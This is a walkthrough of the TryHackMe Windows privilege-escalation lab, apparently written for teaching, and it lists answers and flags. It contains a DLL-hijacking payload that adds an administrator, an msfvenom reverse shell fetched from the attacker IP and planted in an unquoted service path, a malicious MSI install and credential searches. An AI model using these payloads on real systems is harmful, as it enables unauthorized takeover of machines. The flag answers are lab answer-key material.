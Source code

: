 # Windows Privesc

{% embed url="https://tryhackme.com/room/winprivesc" %}
https://tryhackme.com/room/winprivesc
{% endembed %}

## Task 2 Information Gathering

#### List users on the target system. One of them resembles a flag.

```bash
net users
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-17-17.png>)

{% hint style="success" %}
`THM-17213`
{% endhint %}

#### What is the OS version of the target machine?

```bash
systeminfo | findstr /B /C:"OS"
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-18-44.png>)

{% hint style="success" %}
`10.0.17763 N/A Build 17763`
{% endhint %}

#### When was security update KB4562562 installed?

```bash
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr KB4562562
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-20-33.png>)

{% hint style="success" %}
`6/10/2020`
{% endhint %}

#### What is the state of Windows Defender?

```bash
sc query windefend
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-23-25.png>)

{% hint style="success" %}
`STOPPED`
{% endhint %}

## Task 4 Vulnerable Software

#### What version of a Fitbit application can you see installed?

```bash
wmic product get name,version,vendor
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-41-31.png>)

{% hint style="success" %}
`2.0.1.6782`
{% endhint %}

#### What kind of vulnerability seems to affect the Fitbit application?

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-42-19.png>)

{% hint style="success" %}
`Unquoted Service Path`
{% endhint %}

#### What version of FoxitReader is installed on the target system?

```bash
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate `
| Format-Table –AutoSize
```

![](<../../.gitbook/assets/Screenshot from 2022-04-14 06-48-15.png>)

{% hint style="success" %}
`9.0.1.1049`
{% endhint %}

## Task 5 DLL Hijacking

![](<../../.gitbook/assets/image (7).png>)

#### Replicate the example explained above on the target machine.&#x20;

```bash
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```bash
x86_64-w64-mingw32-gcc hijackme.c -shared -o /var/www/html/hijackme.dll    
```

#### Modify the payload to change the password of the user jack

```bash
wget http://10.6.9.176/hijackme.dll -OutFile hijackme.dll
sc stop dllsvc & sc start dllsvc 
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-08-15.png>)

#### Login with Jack's account (the new password you have set). What is the content of the flagdll.txt file?

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-09-16.png>)

{% hint style="success" %}
`THM-8377492093`
{% endhint %}

## Task 6 Unquoted Service Path

we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1. Being able to write to a folder on the path
2. Being able to restart the service

#### What is the full unquoted path of unquotedsvc

```bash
wmic service get name,displayname,pathname,startmode
sc qc unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-24-15.png>)

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
{% endhint %}

#### Go through subfolders in the unquotedsvc binary path. Which folder does the user have read and write privileges on?

```bash
Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\"
Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-29-44.png>)

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service`
{% endhint %}

#### What would be the name of the executable you would place in that folder?

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.9.176 -f exe \
         -o /var/www/html/unquotedpathservice.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-32-25.png>)

```bash
cd C:\Program Files\Unquoted Path Service
wget http://10.6.9.176/unquotedpathservice.exe -OutFile common.exe
sc.exe stop unquotedsvc; sc.exe start unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-46-00.png>)

{% hint style="success" %}
`common.exe`
{% endhint %}

#### Obtain Administrator privileges on the target machine. What is the content of the flagUSP.txt file?

```bash
dir /S flagUSP.txt
type C:\Users\Cora\Documents\flagUSP.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-55-56.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-15 05-56-32.png>)

{% hint style="success" %}
`THM-636729273483`
{% endhint %}

## Task 7 Token Impersonation

Higher privileged service accounts will be forced to authenticate to a local port we listen on. Once the service account attempts to authenticate, this request is modified to negotiate a security token for the "NT AUTHORITY\SYSTEM" account. The security token obtained can be used by the user we have in a process called "impersonation".

### Hot Potato

* Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server.&#x20;
* Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1.&#x20;
* Step 3: The target system will ask for a proxy configuration file (wpad.dat).&#x20;
* Step 4: A malicious wpad.dat file is sent to the target.

![](<../../.gitbook/assets/image (8).png>)

* Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step).&#x20;
* Step 6: The exploit will ask the target system to perform an NTLM authentication.&#x20;
* Step 7: The target system sends an NTLM handshake.&#x20;
* Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".

![](<../../.gitbook/assets/image (6).png>)

## Task 8 Quick Wins

* **Scheduled Tasks**
*   **AlwaysInstallElevated**

    ```
    reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    ```

    ```
    msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
    ```
* Passwords
*   Saved Credentials

    ```
    cmdkey /list
    runas /savecred /user:admin reverse_shell.exe
    ```
*   **Registry keys**

    ```
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    ```
* **Unattend files**
  * Unattend.xml files helps system administrators setting up Windows systems.

## Reference

{% embed url="https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order" %}

{% embed url="https://steflan-security.com/windows-privilege-escalation-dll-hijacking" %}
